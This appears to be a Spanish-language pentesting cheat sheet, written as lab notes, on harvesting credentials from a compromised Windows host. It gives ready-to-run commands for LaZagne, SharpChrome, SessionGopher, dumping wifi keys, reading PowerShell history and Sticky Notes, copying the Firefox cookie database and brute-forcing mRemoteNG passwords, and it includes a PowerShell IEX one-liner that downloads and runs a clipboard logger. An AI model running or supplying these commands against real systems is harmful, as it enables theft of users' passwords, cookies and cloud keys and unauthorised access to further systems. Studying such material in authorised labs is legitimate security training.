 Como primer herramienta podemos buscar (si estamos por rdp) podemos usar el buscador de windows con las siguientes palabras, talvez aparezcan ficheros con contraseñas guardadas:

- Passwords	
- Passphrases	
- Keys
- Username	
- User account	
- Creds
- Users	
- Passkeys	
- Passphrases
- configuration	
- dbcredential	
- dbpassword
- pwd	
- Login	
- Credentials

Lo siguiente que podemos hacer es unsar lazagne 

https://github.com/AlessandroZ/LaZagne/releases/

Una vez que lo metimos en la pc victima lo corremos con:

    start lazagne.exe all

#### también podemos usar el findr por cmd:

    findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml *.settings

#### Powershell History

    (Get-PSReadLineOption).HistorySavePath

#### Podemos también en un oneliner recorrer todos los archivos historicos de powershell a los que tenemos acceso

    foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

#### El archivo unnatend.xml puede tener contraseñas también

#### Buscar archivos en base a una palabra:

    findstr /spin "password" *.* 

#### Buscar con powershell
    select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

#### BUscar una palabra en base a una extensión:
    dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

#### Extraer contraseñas de sticky notes
Las sticky notes (aunque no lo demuesten) son una base de datos.

Esta base de datos se encuentra en:

C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

Podemos acceder a ella y luego robarla para cargarla en nuestra pc atacante o dumpearla con powershell mediante PSSQLite.
##### Powershell local
- Import-Module .\PSSQLite.psd1
- $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
- Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap

##### Linux:
- Robamos el archivo
- Corremos con strings

#### Cmdkey saved credentials
Podemos listar las keys guardadas en el cmd. En un entorno de AD podríamos llegar a encontrar contraseñas guardadas que nos permitan acceder a otros recursos con su ruta incluída.

        cmdkey /list

También podemos correr cosas como el usuario si tiene las creds guardadas en el cmd

        runas /savecred /user:inlanefreight\bob "COMMAND HERE"

#### Extraer credenciales de los browsers:
Podemos usar herramientas como sharpchrome para lograrlo

        .\SharpChrome.exe logins /unprotect

#### También traer contraseñas de chrome:

    gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

#### Extraer contraseñas de firefox
Firefox guarda sus contraseñas en una sqlite

##### Robamos la sqlite de la victima
    copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
##### En la pc atacante:
    python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

    
#### Extraer credenciales de Putty, Winscp, Filezilla, SuperPutty y RDP
para esto podemos usar SessionGopher

        Import-Module .\SessionGopher.ps1
        
        Invoke-SessionGopher -Target <Domain>

#### Clear-text passwords en el registro
        HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

#### Contraseñas de wifi

##### 1) listamos las redes
        netsh wlan show profile
##### 2) Dumpeamos los datos
        netsh wlan show profile <red> key=clear

### mRemteNG
- mRemoteNG es un software que permite conectarse con sistemas remotos mediante VNC,RDP, SSH y otros.
- Guarda las credenciales en el archivo confCons.xml
- su contraseña por defecto es mR3m
- La ubicación de confCons.xml es <user>\appdata\roaming\mremoteng
  #### Desencriptar un password de mremoteng con la contraseña por default
      python3 mremoteng_decrypt.py -s "<password>"
  #### Desencriptar un mremoteng con custom password
      for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "<pass>" -p $password 2>/dev/null;done

### Obtener el clipboard
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
    Invoke-ClipboardLogger

---

### Obtener credenciales de AWS

Cuando realizamos una autenticación en AWS utilizando el cli o el sdk se enera un conjunto de credenciales que incluyen un Access Key Id y un Secret Access Key. Suele uardarse en:

    C:\Users\NombreDeUsuario\.aws\credentials

### Buscar bases de datos de keepass

    Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

### Buscar informacipon sensible de servidores XAMPP

    Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

